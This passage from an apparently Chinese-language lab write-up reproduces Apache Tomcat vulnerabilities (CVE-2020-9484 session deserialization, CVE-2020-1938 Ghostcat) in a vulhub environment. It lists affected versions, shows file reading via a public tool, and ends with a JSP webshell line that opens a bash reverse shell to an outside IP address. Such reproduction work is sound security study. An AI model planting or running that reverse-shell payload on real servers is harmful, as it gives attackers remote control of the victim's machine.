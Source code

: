 虽然报错了，但是反序列化仍然执行成功了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LWwO1c8SMGia2NZ3kyB2m3sz37UWgRS4dAyHcR42SibwrknloEWibNTLicw/640?wx_fmt=png&from=appmsg "")  
### 总结  
  
其实这个漏洞需要omcat进行持久化配置，并且需要配合文件上传漏洞才能进行，上传一个session文件，而且还要知道上传后的位置与session文件本身的存储位置，二者之间的相对路径，这样才能利用，总之来说，个人觉得这个漏洞有点鸡肋，在做黑盒设计漏洞挖掘的时候，即使碰到了也不一定知道存在该漏洞。  
  
参考文章：Tomcat Session(CVE-2020-9484)反序列化漏洞复现 - FreeBuf网络安全行业门户  
## Tomcat AJP协议文件包含漏洞 (CVE-2020-1938)  
### 漏洞概述  
  
Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器。默认情况下，Apache Tomcat会开启AJP连接器，方便与其他Web服务器通过AJP协议进行交互。但Apache Tomcat在AJP协议的实现上存在漏洞，导致攻击者可以通过发送恶意的AJP请求，可以读取或者包含Web应用根目录下的任意文件，如果存在文件上传功能，将可以导致任意代码执行。漏洞利用AJP服务端口实现攻击，未开启AJP服务对外不受漏洞影响（tomcat默认将AJP服务开启并绑定至0.0.0.0）  
```


```  
### 影响版本  
- Apache Tomcat 6  
  
- Apache Tomcat 7 < 7.0.100  
  
- Apache Tomcat 8 < 8.5.51  
  
- Apache Tomcat 9 < 9.0.31  
  
### 利用条件  
  
目标机开启8009端口，并且版本符合上述的影响版本  
### 漏洞复现  
  
复现环境仍然是vulhub上面的环境，该环境会开启8009端口，这个端口就是ajp协议的默认端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2L5h6E4zJmf7ibK4bLZ7tlHHNgvB4L8vAL9BBdDia2Ym0ayA1iasgXicrjuQ/640?wx_fmt=png&from=appmsg "")  
  
使用https://github.com/00theway/Ghostcat-CNVD-2020-10487进行漏洞验证  
#### 文件读取  
  
由于tomcat在请求中会过滤/../也就意味着只能读取ROOT目录下的文件，所以读取一个WEB-INF/web.xml文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LvvkVGFuDpe1ckeJ2s7qVQpqwwiaC382DaHL4mHdG2wtKLPoEiaPa107g/640?wx_fmt=png&from=appmsg "")  
#### 文件包含  
##### 创建木马jsp文件遇到的一个坑  
  
开始的时候，我在tomcat的webapps/ROOT中创建了一个jsp的命令执行代码，发现不能用，这是一个坑  
```
<%Runtime.getRuntime().exec("bash -i >& /dev/tcp/106.12.141.38/7890 0>&1"); %>

```  
  